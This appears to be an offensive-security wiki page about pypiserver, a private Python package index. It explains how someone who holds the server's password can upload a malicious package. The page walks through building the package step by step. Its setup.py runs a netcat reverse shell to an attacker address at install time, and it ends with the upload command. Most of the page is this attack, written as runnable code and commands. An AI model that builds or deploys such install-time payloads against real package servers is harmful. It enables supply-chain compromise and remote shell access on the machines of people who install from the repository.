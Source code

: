 ```yaml
---
description: >-
  PyPI Server (pypiserver) is a minimal PyPi compatible server for pip or
  easy_install.
---
```


# PyPI Server

## What is a PyPI Server?

`pypiserver` is a minimal [PyPI](https://pypi.org) compatible server for `pip` or `easy_install`. It is based on [bottle](http://bottlepy.org) and serves packages from regular directories. Wheels, bdists, eggs and accompanying PGP-signatures can be uploaded either with `pip`, `setuptools`, `twine`, `pypi-uploader`, or simply copied with `scp`.

PyPI Server helps us to create a **Pirvate Python Package Repository.**

## What happens when someone installs from that server and we have the password?

On that moment that we notice that someone installs all packages from the `pypiserver`, and we have the password, we can **upload our malicious python package**.

We will usually find the password inside the `.htpasswd` file from apache or nginx.

### Create our Python Package

Firstly, we need to create a directory with the name of the package, in this example I will use `demo_hacking`.

Navigate into the newly created directory. And create the following files following the hierarchy:

```
demo_hacking
├── demo_hacking
│   └── __init__.py
├── README.md
├── setup.cfg
├── setup.py
└── .pypirc
```

Edit `setup.py` file, in this file we will put our malicious code. At the moment of the installation package our code will execute on victim's machine. This is an example of reverse shell

```
from setuptools import setup
import os
os.system("nc -e /bin/bash ip-addr port") #this is the malicious code
setup(
    name='demo_hacking',
    packages=['demo_hacking'],
    description='Demo H4ck1ng edition',
    version='0.1',
    author='mvc1009',
    keywords=['pip','demo','hacking']
    )
```

Add an example function to `__init__.py`:

```
def print_demo():
    print("Demo Hacking")
```

The `setup.cfg` file lets PyPI know the README is a Markdown file:

```
[metadata]
description-file = README.md
```

Create an empty `README.md` optionally you can create a `LICENSE.txt` file:

```
touch REAMDE.md
touch LICENSE.txt
```

Finally you need to create the `.pypirc` file on the **home** directory:

```
[distutils]
index-servers =
  pypi
  demo
[pypi]
username:
password:
[demo]
repository: http://localhost:port
username: user
password: password
```

{% hint style="info" %}
**Hint**: Do not forget that you can change the dome directory path: `export HOME=path`
{% endhint %}

Finally you need to upload de package to the `pypiserver`.

```
python setup.py sdist upload -r demo
```

### References:

* [https://pypi.org/project/pypiserver/](https://pypi.org/project/pypiserver/)
* [https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/)
